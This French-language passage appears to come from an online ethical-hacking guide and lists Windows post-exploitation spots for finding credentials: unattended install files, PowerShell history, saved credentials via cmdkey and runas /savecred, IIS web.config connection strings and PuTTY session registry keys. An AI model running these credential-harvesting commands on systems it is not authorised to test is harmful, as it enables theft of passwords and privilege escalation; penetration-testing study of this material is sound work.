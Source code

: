 ***

### **13. Emplacements intéressants:**

C:\Unattend.xml&#x20;

C:\Windows\Panther\Unattend.xml&#x20;

C:\Windows\Panther\Unattend\Unattend.xml&#x20;

C:\Windows\system32\sysprep.inf&#x20;

C:\Windows\system32\sysprep\sysprep.xml

**Historique Powershell**

cmd:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Powershell:

```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Informations d'identification Windows enregistrées**

```
cmdkey /list
```

```
runas /savecred /user:admin cmd.exe
```

**Configuration IIS (webadmin)**

C:\inetpub\wwwroot\web.config

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Récupérer les identifiants à partir du logiciel : PuTTY**

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
